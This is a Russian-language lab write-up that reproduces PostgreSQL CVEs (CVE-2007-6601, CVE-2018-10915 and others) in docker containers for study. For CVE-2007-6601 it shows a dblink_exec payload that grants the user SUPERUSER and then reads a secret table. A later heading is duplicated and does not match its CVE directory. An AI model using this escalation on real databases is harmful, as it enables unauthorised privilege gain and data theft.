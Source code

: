 # Лабораторная работа №1
Лабораторная работа лежит в [репозитории](https://github.com/x4m/pg_cve_demo)
```shell
git clone https://github.com/x4m/pg_cve_demo.git
```
## CVE-2007-6601
Уязвимая версия Postgres поднимается в docker контейнере
```shell
cd CVE-2007-6601
docker compose up
```
![](img/image.png)

Подключение к БД
```shell
psql postgresql://user1:password@127.0.0.1:5432/db1
```

dblink к secret_db
```psql
SELECT dblink_exec('host=localhost dbname=secret_db', 'ALTER USER user1 WITH SUPERUSER;');
```
Переключает текущее подключение на базу secret_db
```psql
\c secret_db;
```
Выводит все данные из таблицы secret_table
```psql
select * from secret_table;
```
![](img/image2.png)

## CVE-2018-10915
```shell
cd CVE-2018-10915
docker compose up
```
```
psql postgresql://user1:password@127.0.0.1:5432/db1
```
![](img/image3.png)
```
psql postgresql://postgres:password@127.0.0.1:5433
```
![](img/image4.png)

## CVE-2020-14349
```shell
cd CVE-2020-14349
docker compose up
```
## CVE-2020-14349
```shell
cd CVE-2022-1552
docker compose up
```